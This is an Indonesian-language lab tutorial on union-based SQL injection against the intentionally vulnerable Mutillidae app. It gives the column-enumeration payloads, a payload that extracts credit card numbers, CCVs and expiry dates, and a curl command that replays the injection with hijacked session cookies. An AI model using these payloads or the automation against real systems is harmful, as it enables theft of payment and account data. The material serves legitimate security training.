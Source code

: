 ## Lesson 9 - SQL Injection Union Exploit \#2

### \# Penjelasan Database Union

* **Step 1** : Masuk ke dalam database Mutillidae di Metasploitable OS

```
su - root
mysql -uroot
use owasp10;
show tables;
```
didalam database terdapat tabel _accounts_ dan _credit_cards_. 2 tabel tersebut akan kita union kan. **UNION** adalah operasi penggabungan lebih dari satu hasil **SELECT** dalam SQL

* **Step 2** : Melakukan operasi UNION
```
select * from accounts where username RLIKE '^[0-9]' union select ccid, ccnumber, ccv, expiration, null from credit_cards;
```

* **Step 3** : Pada bagian connection, klik tombol _Settings_. Setelah mengklik tombol _Settings_, maka akan muncul kotak dialog _Connection Settings_. Atur _Connection Settings_ sesuai gambar.  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_06_35.png)

* **Step 4** : Buka burpsuite, dengan cara pilih Applications --&gt; Web Application Analysis --&gt; burpsuite  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_10_12.png)

* **Step 5** : Pada saat burpsuite telah dibuka, maka akan ditanyakan tentang project. Klik tombol Next   
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_24_51.png)

* **Step 6** : Setelah menekan tombol next, maka selanjutnya ada memilih konfigurasi burp. Pilih radio button User Burp defaults dan Klik Start Burp  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_26_28.png)

* **Step 7** : Setelah menekan tombol Start Burp, maka aplikasi Burp Suite sudah berjalan. Langkah selanjutnya adalah memastikan apakah port proxy pada Burp Suite adalah 8080, dengan cara memilih menu Proxy --&gt; Options  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_31_58.png)

* **Step 8** : Setelah memastikan port porxy 8080, maka selanjutnya adalah mematikan Intercept pada menu Proxy --&gt; Intercept.  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_34_07.png)

### \# SQL Injection \(Union Example \#1\)

* **Step 1** : Buka halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Masukkan syntax sql `' union select null --` pada text box name untuk perbocaan pertama melakukan sql injection dan tekan tombol _View Account Details_.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_40_50.png)

* **Step 4** : Setelah menekan tombol _View Account Details_, maka akan terjadi error query karena jumlah kolom dan kolom union berbeda.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_44_12.png)

* **Step 5** : Lakukan **Step 2** kembali. Setelah melakukan **Step 2**, lakukan kembali **Step 3** dengan menambah `null` pada syntax query sql injection. Contoh penambahan `null` pada query sql injection `' union select null,null --`.

* **Step 6** :  Lakukan **Step 5** sampai jumlah kolom union dan kolom table accounts sama. `' union select null,null,null,null,null --` adalah syntax query hasil percobaan **Step 5**. Dapat disimpulkan jumlah kolom pada table accounts adalah 5.

* **Step 7** : Masukkan query sql injection `' union select null,null,null,null,null --` pada textbox name. Dan kemudian tekan tombol _View Account Details_.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_56_23.png)

* **Step 8** : Setelah menekan tombol _View Account Details_, maka hasilnya akan menunjukan kolom yang ditampilkan pada web.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_58_23.png)

* **Step 9** : Lakukan **Step 7** kembali dengan mengganti `null` menjadi angka dengan query sql injection sebagai berikut `' union select 1,2,3,4,5 --`  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_03_20.png)

* **Step 10** : Dapat dilihat dari hasil percobaan **Step 9** bahwa kolom username diisi oleh nomer 2, password diisi oleh nomer 3 dan Signature diisi oleh nomer 4.

  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_04_19.png)

* **Step 11** : Langkah selanjutnya adalah melakukan serangan sql injection dengan menggabungkan dengan tabel yang sudah diketahui selain accounts. Contohnya menggunakan tabel credit\_cards, sehingga query sql injectionnya menjadi `' union select ccid,ccnumber,ccv,expiration,null from credit_cards --`  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_10_49.png)

* **Step 12** : Maka hasilnya, bagian username diisi oleh ccnnumber, password diisi oleh ccv, dan signature diisi oleh expiration.   
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_12_04.png)

### \# Curl Action

* **Step 1** : Buka Burp Suite dan cari log hasil sniffing pada **step 12** pada bagian SQL Injection \(Union Example \#1\), kemudian catat/copas raw header request.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_17_58.png)

* **Step 2** : Copas Cookie pada hasil header dan masukkan pada file crack\_cookies.txt  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_21_02.png)

* **Step 3** : Jalankan perintah   
  `curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.151.36.64/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'`   
  dan lihat hasilnya. Hasilnya adalah data hasil sql injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_23_28.png)

### \# Perl Parser

* **Step 1** : Download lesson8.pl pada link berikut [http://www.computersecuritystudent.com/SECURITY\_TOOLS/MUTILLIDAE/MUTILLIDAE\_2511/lesson8/lesson8.pl.TXT](/http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT)
* **Step 2** : Ganti nama lesson8.pl.TXT menjadi lesson8.pl dan ubah permission menjadi `rwx------` atau 700.
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_39_29.png)
* **Step 3** : Jalankan perintah 
  `curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.151.36.64/mutillidae/index.php" | grep -i "Username="  > lesson8.txt`
* **Step 4** : Setelah menjalankan perintah tersebut maka hasil perintah pada **Step 3** disimpan pada file lesson8.txt.
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_42_37.png)
* **Step 5** : Jalankan file lesson8.pl dan lihat hasilnya.
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_43_37.png)



